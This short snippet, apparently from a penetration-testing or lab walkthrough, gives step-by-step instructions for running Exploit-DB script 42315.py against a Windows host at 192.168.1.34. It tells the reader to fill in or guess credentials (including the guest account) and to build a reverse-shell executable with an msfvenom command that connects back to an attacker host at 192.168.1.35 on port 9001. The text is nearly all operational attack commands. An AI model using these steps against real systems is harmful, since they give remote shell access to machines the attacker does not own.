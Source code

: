 - Modify user/password in the exploit - try with guest account if no credentials are available
- Generate a reverse shell payload, e.g.

```
msfvenom -p windows/x64/shell_reverse_tcp -f exe -o rshell.exe LHOST=192.168.1.35 LPORT=9001
```

- Run with python2 on the target ip:

```
python 42315.py 192.168.1.34
```
